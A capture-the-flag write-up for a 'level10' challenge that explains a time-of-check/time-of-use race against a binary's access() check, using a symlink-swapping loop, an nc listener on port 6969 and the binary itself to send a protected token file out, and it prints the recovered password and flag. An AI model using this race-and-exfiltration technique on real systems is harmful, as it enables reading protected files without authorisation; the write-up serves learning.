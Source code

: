 # The way we've solved this

1. After logging into the **level10** user, we, once again, can see one binary file, named `level10`, and one text file, named `token`. This time we, once again can't see the content of the token file. That means we definitely should check out what we can do with the `level10` executable. First of all, let's try to launch it. It responses us with the short usage info.
2. First of all, we'll create test file with all the permissions to it we want to have. Now, let's try to run `level10` executable with the previously used tool named `ltrace` and with all the requested in usage message arguments: `ltrace ./level10 /tmp/test 10.0.2.15`
3. In the traces of ltrace we can see `access` method invocation, which, obviously, checks permissions of current user to the file specified earlier. After checking out `access` man page, we will get a sense of what we need to do next: _exploit the short time interval between checking and opening the file to manipulate it_. To do so we should simultaneously do several things:
   1. Create a background process which will rapidly switch symbolic link from pointing to file we want to expose to the file we have full permissions on.
   2. Create a background process which will listen to the 6969 port (because we'll kinda bruteforce it, considering amount of tries we'll perform). We'll do that using command: `nc -lk 6969`.
   3. Create a background process which will send file to the 6969 port by means of the `./level10` executable. The last of the commands will look like `./level10 /tmp/<our_symbolic_link> <our_host>`.
4. We've performed all that in one script `ultra-kekker`. It's not the best program we wrote, but it works. After executing it, among other less meaningful strings, we will get something like a password from the next flag: `woupa2yuojeeaaed06riuj63c`.
5. Let's log into **flag10** user, and launch `getflag` command to get the next flag: `feulo4b72j7edeahuete3no7c`.
